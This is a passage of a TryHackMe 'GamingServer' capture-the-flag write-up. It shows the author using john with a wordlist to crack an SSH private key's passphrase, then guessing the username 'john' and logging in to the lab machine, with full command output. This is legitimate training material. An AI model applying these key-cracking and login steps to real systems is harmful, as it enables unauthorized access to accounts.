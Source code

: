 Now with the hash I can use john to crack.

```highlight
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #john cracked -w dict.lst 
Warning: only loading hashes of type "SSH", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
{{REDACTED}}          (secretKey)
1g 0:00:00:00 DONE (2020-09-06 15:20) 100.0g/s 354600p/s 354600c/s 354600C/s 1701d..sss
Session completed
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #
```

It doesn't take long to crack. Using the key and password I should be able to SSH in to the machine. However, I dont know the username, going back to the HTML comment earlier, I will try with the username 'john'. First I need to chmod 600 the key file before I can use it.

```highlight
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #chmod 600 secretKey 
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #ssh -i secretKey john@10.10.100.235
The authenticity of host '10.10.100.235 (10.10.100.235)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.100.235' (ECDSA) to the list of known hosts.
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep  6 14:23:42 UTC 2020

  System load:  0.0               Processes:           96
  Usage of /:   41.3% of 9.78GB   Users logged in:     0
  Memory usage: 40%               IP address for eth0: 10.10.100.235
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
